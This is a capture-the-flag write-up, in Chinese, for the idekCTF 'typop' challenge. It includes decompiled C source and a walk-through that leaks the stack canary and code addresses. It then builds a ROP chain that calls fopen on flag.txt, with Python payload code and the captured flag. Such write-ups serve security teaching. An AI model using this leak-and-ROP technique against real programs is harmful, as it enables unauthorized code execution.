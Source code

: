 # 题目信息

JW#9396

While writing the feedback form for idekCTF, JW made a small typo. It still compiled though, so what could possibly go wrong?

nc typop.chal.idek.team 1337

# 解决方案

首先Ghidra获取源码，发现三个关键函数main、getFeedback、win，代码如下：

```c
undefined8 main(void)

{
  int iVar1;
  
  setvbuf(stdout,(char *)0x0,2,0);
  while( true ) {
    iVar1 = puts("Do you want to complete a survey?");
    if (iVar1 == 0) {
      return 0;
    }
    iVar1 = getchar();
    if (iVar1 != 0x79) break;
    getchar();
    getFeedback();
  }
  return 0;
}

void getFeedback(void)

{
  long in_FS_OFFSET;
  undefined8 local_1a;
  undefined2 local_12;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_1a = 0;
  local_12 = 0;
  puts("Do you like ctf?");
  read(0,&local_1a,0x1e);
  printf("You said: %s\n",&local_1a);
  if ((char)local_1a == 'y') {
    printf("That\'s great! ");
  }
  else {
    printf("Aww :( ");
  }
  puts("Can you provide some extra feedback?");
  read(0,&local_1a,0x5a);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

void win(undefined param_1,undefined param_2,undefined param_3)

{
  FILE *__stream;
  long in_FS_OFFSET;
  undefined8 local_52;
  undefined2 local_4a;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_4a = 0;
  local_52 = CONCAT17(0x74,CONCAT16(0x78,CONCAT15(0x74,CONCAT14(0x2e,CONCAT13(0x67,CONCAT12(param_3,
                                                  CONCAT11(param_2,param_1)))))));
  __stream = fopen((char *)&local_52,"r");
  if (__stream == (FILE *)0x0) {
    puts("Error opening flag file.");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  fgets((char *)&local_48,0x20,__stream);
  puts((char *)&local_48);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

getFeedback的read调用存在栈溢出，但是这个程序开启了所有保护机制，所以我们需要先知道canary的值，不然无法利用栈溢出，通过gdb调试得知`local_1a`的地址偏移10个字节后就是canary的值，偏移18个字节后是返回main函数时设置的RBP的值，由于有两个read调用，第一个read调用后会输出`local_1a`处的字符串，也就是说输出的内容遇到字节0才结束，已知canary的第一个字节为0，因此我们想要返回canary的内容，我们需要通过read调用写入11个非0字节，比如10个a加一个回车，然后就可以拿到canary和rbp的值，通过rbp以及已知的偏移量，我们可以计算出`local_1a`在栈区的实际地址，然后我们在第二次read调用时重新写入正确的canary来避免程序崩溃，这时会重新回到main函数，然后重新进入getFeedback函数。

然后开始下一步，我们还需要知道程序指令部分的基地址，这样才能构造ROP，通过gdb调试我们得知`local_1a`偏移26个字节后的值为main+55对应的地址，通过第一个read调用，我们写入26个非0字符，然后就可以读取到该地址，根据偏移量算出实际的基地址，然后我们就可以构造ROP了。

通过ROPgadget发现我们只能控制rdi和rsi寄存器的值，无法控制rdx寄存器的值，因此我们不能跳到win函数，而是直接跳到fopen函数，通过控制第一个参数（即rdi）为flag.txt，第二个参数（即rsi）为r，然后跳到fopen函数，但是这个地方需要正确设置，不然会出错。

刚开始我尝试构造的payload为：

```python
payload = b'flag.txt\0\0' + canary + flat(
    0,
    pop_rdi_ret,
    stack_address,
    pop_rsi_pop_r15_ret,
    string_r,
    0,
    fopen_addr,
)
```

这个payload并不能成功，通过gdb调试，发现可以跳到fopen调用指令处，而且参数都是正确的，不知道是哪里出了问题，后来参考别人的方案，才发现问题所在。

首先，payload最后一部分写入的fopen_addr出栈到RIP寄存器中，然后开始执行fopen函数，fopen函数会有诸多入栈操作，会把前面写入flag.txt给覆盖掉，因此，执行后会显示文件打开错误，所以我们需要把flag.txt的值写入fopen_addr后面的地方防止被后续的入栈操作覆盖掉。

此外，canary后续的8个字节会出栈到RBP寄存器中，设置成0是不行的，会报错SIGSEGV错误，在构造shell gadget时不用考虑这些，但是这里的fopen函数中有很多复杂的指令，乱设一个值是不行的，我们把RBP设置为往下0x100字节，就不会报错，可以成功拿到flag的payload如下：

```python
payload = b'flag.txt\0\0' + canary + flat(
    rbp_address - 0x100,
    pop_rdi_ret,
    stack_address + 0x51,
    pop_rsi_pop_r15_ret,
    string_r,
    0,
    fopen_addr,
    b'a' * 7 + b'f',
    b'lag.txt\0'
)
```

具体细节可以参考脚本[solve.py](solution/solve.py)。

```
idek{2_guess_typos_do_matter}
```
